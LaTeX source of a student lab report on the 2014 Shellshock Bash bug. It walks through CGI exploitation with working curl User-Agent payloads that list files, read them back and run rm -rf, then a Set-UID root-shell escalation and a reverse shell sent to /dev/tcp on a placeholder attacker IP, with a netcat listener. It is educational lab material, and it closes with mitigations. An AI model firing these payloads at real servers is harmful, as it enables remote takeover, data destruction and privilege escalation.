%\documentclass[12pt,notitlepage]{article}
\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{verbatim}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{pdfpages}
\usepackage{amsmath}
\usepackage{tikzsymbols}
\usepackage{mwe}
\usetikzlibrary{decorations.pathreplacing}
\usepackage{mathtools}
\usepackage{enumitem}
\DeclarePairedDelimiter\ceil{\lceil}{\rceil}
\DeclarePairedDelimiter\floor{\lfloor}{\rfloor}

\usepackage{hyperref}
%\usepackage[T1]{fontenc}
\usepackage{url}
\usepackage{lipsum}
\usepackage{array}
\usepackage{multirow}
\usepackage{float}
\usepackage{lscape}
\usepackage{colortbl}
\newcolumntype{P}[1]{>{\centering\arraybackslash}p{#1}}
\usepackage[nottoc,numbib]{tocbibind}
\usepackage{fancyhdr}
\usepackage{hhline}
\usepackage[printonlyused]{acronym}

%\usepackage{txfonts}
\usepackage{lipsum,etoolbox}% http://ctan.org/pkg/{lipsum,etoolbox}
\usepackage{caption}
\usepackage{subcaption}

\usepackage{algorithm}
\usepackage[noend]{algpseudocode}

\makeatletter
\def\BState{\State\hskip-\ALG@thistlm}
\makeatother

\usepackage{minted}

\definecolor{black}{RGB}{0,0,0}

\usepackage{fancyvrb}

\usepackage{geometry}
\geometry{
	a4paper,
	total={170mm,257mm},
	right=3cm,
	left=3.5cm,
	top=3cm,
	bottom=3cm
}

\makeatletter
\DeclareRobustCommand{\rvdots}{%
	\vbox{
		\baselineskip4\p@\lineskiplimit\z@
		\kern-\p@
		\hbox{.}\hbox{.}\hbox{.}
}}
\makeatother
\usepackage{titlesec}
\usepackage{hyperref}
\titleclass{\subsubsubsection}{straight}[\subsection]

\newcounter{subsubsubsection}[subsubsection]
\renewcommand\thesubsubsubsection{\thesubsubsection.\arabic{subsubsubsection}}
\renewcommand\theparagraph{\thesubsubsubsection.\arabic{paragraph}} % optional; useful if paragraphs are to be numbered

\titleformat{\subsubsubsection}
{\normalfont\normalsize\bfseries}{\thesubsubsubsection}{1em}{}
\titlespacing*{\subsubsubsection}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\makeatletter
\renewcommand\paragraph{\@startsection{paragraph}{5}{\z@}%
	{3.25ex \@plus1ex \@minus.2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\renewcommand\subparagraph{\@startsection{subparagraph}{6}{\parindent}%
	{3.25ex \@plus1ex \@minus .2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\def\toclevel@subsubsubsection{4}
\def\toclevel@paragraph{5}
\def\toclevel@paragraph{6}
\def\l@subsubsubsection{\@dottedtocline{4}{7em}{4em}}
\def\l@paragraph{\@dottedtocline{5}{10em}{5em}}
\def\l@subparagraph{\@dottedtocline{6}{14em}{6em}}
\makeatother
\newcommand*\circled[1]{\tikz[baseline=(char.base)]{
		\node[shape=circle,draw,inner sep=2pt] (char) {#1};}}


\setcounter{secnumdepth}{4}
\setcounter{tocdepth}{4}
\newcommand{\und}{\underline{\hspace{.10in}}}
\begin{document}
	\begin{titlepage}
		\begin{center}
			\vspace*{9em}
			\Huge 
			MH4920\\ Supervised Independent Study I\\
			\vspace*{4em}
			\LARGE
			\textbf{Shellshock Attack}\\		
			\vspace{4em}
			\textbf{Brandon Goh Wen Heng}\\
			\vspace*{4em}
			Academic Year 2017/18
			\vfill
		\end{center}
	\end{titlepage}
	
	\pagenumbering{roman}
	\tableofcontents
	\newpage
	\pagenumbering{arabic}
	\section{Introduction}
Shellshock is a series of bugs pertaining to the Unix Bash shell that was first disclosed in September 2014. Web servers such as Apache uses Bash to process commands and allows an attacker to exploit vulnerable versions of Bash to execute arbitrary commands and obtain escalated privileges on these systems.\\\\The first of these bugs allows functions to be stored into the environment variables and using the \textit{function export} feature in Bash, pass these values to child processes. As Bash does not check whether the definitions are properly formed before being passed, the attacker can manipulate the environment variables that will be used by Bash and execute arbitrary code.
\section{Overview}
This lab will provide a hands-on experience on exploiting the Shellshock vulnerability on a web server serving CGI pages and analyse the consequences of exploiting a vulnerability to run malicious code.\\\\A simple line of the following code is able to create a loophole for attacks to occur.\begin{verbatim}
export foo='() { :;}; echo Hello'
\end{verbatim}
When \texttt{bash} is called, the string ``Hello'' will output onto the screen. This vulnerability causes any code outside of the \{\} to be run when \texttt{bash} is called. Figure 1 shows the effect on executing the above-mentioned code.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{simpleshellshock}
	\caption{Exploitation}
	\label{fig:simpleshellshock}
\end{figure}
\noindent The attack vector using this method is not limited to exploiting local computers but remote as well, by modification of the User-Agent (UA) headers due to how the UA is stored as an environment variable and executed by \texttt{bash} on the remote system.
\newpage
\section{Vulnerability Exploit}
\subsection{VM Preparation}
\vspace{1em}
\begin{enumerate}
	\item \textbf{Updating \texttt{curl}}
	\begin{par}\texttt{curl} is used as a tool to transfer data to and from a server using common internet protocols including HTTP, FTP, POP3, TELNET, TFTP amongst many others. It supports options to defined user agent headers, forced use of deprecated protocols such as HTTP 1.0 and SSLv2. The VM does not include \texttt{curl} and must be installed manually. As this may include updating components of the system, a snapshot is first created in case the system needs to be rolled back for other labs later on. Furthermore, because the sources for Ubuntu 12 are outdated, it needs to be updated as well.
		\begin{verbatim}
		$ sudo apt-get update
		$ sudo apt-get install -y
		\end{verbatim}
	\end{par}
	\end{enumerate}

\subsection{CGI Preparation}
To perform the shellshock attack, a dynamic web file is first created so that the CGI program can be executed to call \texttt{bash} later. To do so, we create a file in the \texttt{/usr/lib/cgi-bin} directory (default) with the following source code and name it as \texttt{myprog.cgi}.
\begin{minted}{bash}
#!/bin/bash

echo "Content_type: text/plain"
echo
echo
echo "Hello World"
\end{minted}
To execute the program, we can
\begin{enumerate}
	\item Use a web browser and type \texttt{http://localhost/cgi-bin/myprog.cgi} into the address bar; or
	\item Open terminal and use the \\command \texttt{curl http://localhost/cgi-bin/myprog.cgi}
\end{enumerate}
Execution of the program will print out a ``Hello World'' as it was written into the file.
\newpage
\subsection{Exploiting \texttt{CGI} Vulnerability}
To exploit the Shellshock vulnerability, we make use of the User-Agent field. Due to the way \texttt{bash} executes trailing code, the malicious code to be executed will be appended to the back, before ending with the URL of the page. In this instance, we can print out all the files and the directories on the remote system.
\begin{verbatim}
curl -A "() { :;}; echo Content_type: text/plain; /bin/ls -l -R /
> /tmp/listdir.txt" http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
\texttt{/tmp} is used to store the output as it is world-writable, not easily detectable and cleaned after every reboot. If we would like to print the contents of the file that was just written, we can perform the same attack and change the command to be used.
\begin{verbatim}
curl -A "() { :;}; echo Content_type: text/plain; /bin/cat
/tmp/listdir.txt" http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
If an attacker wants to do cripple a system, a simple command using \texttt{rm -rf} will permanently delete any file that is accessible by the Apache user account on the system.
\begin{verbatim}
curl -A "() { :;}; echo Content_type:text/plain; /bin/rm -rf"
http://localhost/cgi-bin/myprog.cgi
\end{verbatim}
The vulnerability in the \texttt{bash} code is reflected in Figure 2. The reflected code preserves backwards compatibility by allowing functions to be imported, but can now be exploited to execute malicious code.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{oldbash}
	\caption{Code Vulnerability}
	\label{fig:oldbash}
\end{figure}
\subsection{Exploiting \texttt{Set-UID} Program}
For this section, the shellshock vulnerability will be exploited with a \texttt{Set-UID} program to obtain root access to the system. For this, \texttt{bash} must be downgraded to 4.1 as 4.2 has fixed the bug and the exploit will fail. The following commands are used to install \texttt{bash} 4.1 and make a backup of the current \texttt{bash}.
\begin{verbatim}
$ su
# mv /bin/bash /bin/bashbackup
# wget http://ftp.gnu.org/gnu/bash/bash-4.1.tar.gz
# tar xf bash-4.1.tar.gz
# cd bash-4.1
# ./configure
# make & make install
# ln -s /usr/local/bin/bash /bin/bash
# ln -s /bin/bash /bin/sh
# exit
\end{verbatim}
We create and compile the following \texttt{Set-UID} program which executes the \texttt{ls} command in \texttt{/bin}. It is also known that \texttt{system} will call \texttt{/bin/sh -c} to run the command.
\begin{minted}{C}
#include <stdio.h>

void main()
{
    setuid(geteuid());
    system("/bin/ls -l")
}
\end{minted}
Before the program is executed, the shellshock function is exported. A simple command is issued in Terminal that exploits this vulnerability.
\begin{verbatim}
export foo = '() { :;}; bash'
\end{verbatim}
Due to how \texttt{system} works, the function \texttt{foo} in the environment variable will also be parsed and this will result in bash being called with root privileges when the vulnerable program is executed.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{setuidhshellshock}
	\caption{Shellshock Exploit with Absolute Address}
	\label{fig:setuidhshellshock}
\end{figure}
\noindent Of course, when the line \texttt{setuid(geteuid())} is removed, the exploit will not work as euid of the parent process and the child process is different. As such, the function will not be imported and the attack will not succeed.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{noprivesc}
	\caption{No Privilege Escalation}
	\label{fig:noprivesc}
\end{figure}
\noindent The part of the code that implements the safeguard is shown in Figure 5, where it is checked before the function is imported.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{Privcheck}
	\caption{UID \& EUID Check}
	\label{fig:privcheck}
\end{figure}
\noindent If \texttt{execve} is used instead of \texttt{system}, the exploit will also not work. This is due to \texttt{execve} not requiring the execution of \texttt{bash} to run the code, as such even if the malicious function is exported, it will not work. The code for this part has been attached in the \hyperref[Appsec3.4]{Appendix}.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{noshellexecve}
	\caption{No Shell Escalation}
	\label{fig:noshellexecve}
\end{figure}
\newpage
\section{Further Analysis}
It is possible to combine the methods of shellshock and shell redirect to obtain access on the remote system via reverse shell. On the attacker's computer, two Terminals would need to be opened.\\\\
Terminal 1 will have the following code:
\begin{verbatim}
nc -l 9090 -v
\end{verbatim}
This is to allow Terminal to listen for incoming connections on port 9090.
\\\\Terminal 2 will have the following code:
\begin{verbatim}
curl -A "() { :;}; echo Content-type: text/plain; echo; 
/bin/bash -i > /dev/tcp/<Attacker IP Address>/9090 2>&1 0<&1"
http://<Victim IP Address or TLD URL>/<Path to CGI Program>
\end{verbatim}
The code from Terminal 2 is then executed, which will push the request to the victim's computer, execute the \texttt{bash} function in interactive mode and redirect the shell to the attacker's computer. It is worth noting that \texttt{0} represents \textit{STDIN} (standard input), \texttt{1} represents \textit{STDOUT} (standard output) and \texttt{2} represents \textit{STDERR} (standard error). This means that the code snippet \texttt{2>\&1 0<\&1} redirects the standard error from the victim to the attacker's computer as standard output. Similarly, the standard output from the attacker's computer will be used as the input on the victim's system.
\begin{figure}[H]
{	\centering

\begin{tikzpicture}
\draw (-4,2) rectangle node {Victim}(-1,-1);
\draw (5,2) rectangle node {Attacker}(8,-1);
\draw (4.6,2.4) node {\circled{1}};
\draw [->, line width=0.5mm] (5,1.2) -- node[yshift=5mm] {\circled{2}} (-1,1.2);
\draw [<-, line width=0.5mm] (5,-0.2) -- node[yshift=5mm] {\circled{3}} (-1,-0.2);
\draw (4.6,-1.4) node {\circled{4}};
\end{tikzpicture}\\
}
\circled{1}: Netcat enabled on attacker's system.\\
\circled{2}: Malicious \texttt{curl} script transmitted.\\
\circled{3}: Malicious script executed and redirects shell control to attacker.\\
\circled{4}: Attacker has full control of victim's system.
\caption{Process of Remote Reverse Shell}
\end{figure}
\noindent Using the idea in Figure 7 and the code mentioned above, a successful attack is easily performed and the attacker is being able to \texttt{ls} the contents located in the home folder as well as obtain the IP address of the victim's computer.\\\\$^\star$Victim's computer is on the left, attacker's computer is on the right.
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{reverseshell}
	\caption{\texttt{ls} of Victim's Computer}
	\label{fig:reverseshell}
\end{figure}
\begin{figure}[H]
	\centering
	\includegraphics[width=0.9\linewidth]{reverseshellcfm}
	\caption{Confirmation of Successful Attack (IP Check)}
	\label{fig:reverseshellcfm}
\end{figure}
\noindent The fundamental problem is that \texttt{bash} preserves legacy functions such as to import functions and store them as environment variables, where it can be exploited when \texttt{bash} is run on the system. This can effectively lead to full system compromise, since the attacker has full control of the system once the shell of the remote system appears.\\\\The mitigations that can be used to prevent such an attack is to use safe practices when coding, such as to use \texttt{execve} and restrict access to other users where possible to reduce the surface being exposed to attackers.
\newpage
\section{Appendix}
\subsection{Shellshock Attack: \texttt{execve}}
\begin{minted}{C}
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

char **environ;

int main()
{
    char *argv[3];
    argv[0]="/bin/ls";
    argv[1]="-l";
    argv[2]=NULL;

    setuid(geteuid());
    execve(argv[0], argv, environ);

    return 0;
}
\end{minted}
\end{document}